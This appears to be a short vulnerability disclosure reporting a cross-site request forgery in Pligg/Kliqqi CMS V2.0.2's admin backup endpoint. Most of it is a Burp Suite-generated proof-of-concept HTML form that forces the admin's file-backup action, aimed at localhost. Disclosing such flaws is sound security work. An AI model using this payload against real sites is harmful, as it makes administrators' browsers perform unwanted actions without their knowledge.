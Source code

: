 
target:https://github.com/Kliqqi-CMS/Kliqqi-CMS
version: V2.0.2

Pligg CMS V2.0.2 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://127.0.0.1:80/admin/admin_backup.php?dobackup=files

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:80/admin/admin_backup.php?dobackup=files" method="POST">
      <input type="hidden" name="dobackup" value="files" />

      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

